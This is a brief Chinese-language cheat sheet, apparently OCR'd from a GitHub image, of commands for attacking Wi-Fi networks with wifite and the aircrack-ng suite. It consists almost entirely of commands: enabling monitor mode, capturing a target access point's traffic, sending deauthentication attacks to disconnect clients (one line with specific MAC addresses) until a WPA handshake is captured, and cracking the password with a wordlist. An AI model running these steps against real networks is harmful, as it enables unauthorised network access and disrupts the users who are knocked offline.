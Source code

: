 #### wifite
	Kali下工具wifite，加载网卡，开启监听模式，#airmon-ng check kill
	>airmon-ng start wlan1
	安装hcxtools v4.2.0或更高版本，hcxdumptool v4.2.0或更高版本
	>apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
	>git clone https://github.com/ZerBea/hcxtools
	>cd hcxtools
	>make
	>make install 
	>git clone https://github.com/ZerBea/hcxdumptool
	>cd hcxdumptool
	>make
	>make install
	>wifite –-dict /root/Desktop/wordlist.txt  加载
#### Aircrack-ng
	>airmon-ng start wlan0 开启监听模式
	>airodump-ng wlan0mon  查看数据包
	>airodump-ng –c 1 –bssid APmac –w name wlan1mon保存某AP数据包
	>aireplay-ng –deauth 10 –a APmac wlan0mon  deauth攻击
	>aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon deauth攻击某个设备直至获取handshake(握手包)
	>airmon-ng stop wlan0mon  关闭监听模式
	>aircrack-ng –w wordlist.txt name.cap 指定字典破解密码
